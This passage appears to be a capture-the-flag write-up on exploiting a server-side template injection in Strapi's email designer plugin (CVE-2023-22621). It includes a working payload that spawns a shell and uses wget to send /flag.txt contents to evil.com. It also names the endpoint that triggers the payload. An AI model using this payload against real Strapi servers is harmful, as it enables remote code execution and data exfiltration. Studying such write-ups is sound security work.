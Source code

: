 + Looking through the source code, in dependencies, we can see that `strapi-plugin-email-designer": "^2.1.2` is used. This version of email designer is vulnerable to Server side templating injection(SSTI)
+ If you had super administrator access, you can inject a malicious payload into an email template that bypasses the validation function isValidEmailTemplate (file @strapi/plugin-users-permissions/server/controllers/validation/email-template.js ) that exploits a SSTI vulnerability in sendTemplatedEmail (file @strapi/plugin-email/server/services/email.js ). The function sendTemplatedEmail renders email templates into HTML content using the lodash template engine that evaluates JavaScript code within templates
+ Login in with the provided account and create a custom email template using the email designer plugin with the following payload.
<%= `${ process.binding("spawn_sync").spawn({"file":"/bin/sh","args":["/bin/sh","-c","wget https://evil.com?flag=$(cat /flag.txt)"],"stdio":[{"readable":1,"writable":1,"type":"pipe"},{"readable":1,"writable":1,"type":"pipe"/*<>%=*/}]}).output }` %>
Send a request to /api/sendtestemail/{refId} where {refId} is the template reference ID created in step 1.


Reference:
https://www.ghostccamm.com/blog/multi_strapi_vulns/#cve-2023-22621-ssti-to-rce-by-exploiting-email-templates-in-strapi-versions-455
